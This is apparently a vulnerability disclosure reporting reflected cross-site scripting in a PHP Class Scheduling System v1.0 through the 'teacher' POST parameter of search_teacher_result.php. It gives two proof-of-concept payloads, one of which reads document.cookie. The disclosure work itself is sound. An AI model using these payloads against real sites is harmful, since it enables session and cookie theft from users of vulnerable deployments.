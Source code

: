 # Class Scheduling System v1.0 has reflected cross site scripting vulnerability

BUG_Author: joicygiore

Website source address: https://www.sourcecodester.com/php/5175/class-scheduling-system.html

Vulnerability File: /online_class_scheduling_system/search_teacher_result.php

Parameter "teacher" (POST), exists reflected cross site scripting vulnerability

Payload1:teacher=--><script>alert(996)</script>&semester=2nd&sy=2012-2013&save=

![image](https://github.com/joicygiore/ApplyForCVE/blob/main/1.png)

Payload2:teacher=--><script>alert(document.cookie)</script>&semester=2nd&sy=2012-2013&save=

![image](https://github.com/joicygiore/ApplyForCVE/blob/main/2.png)
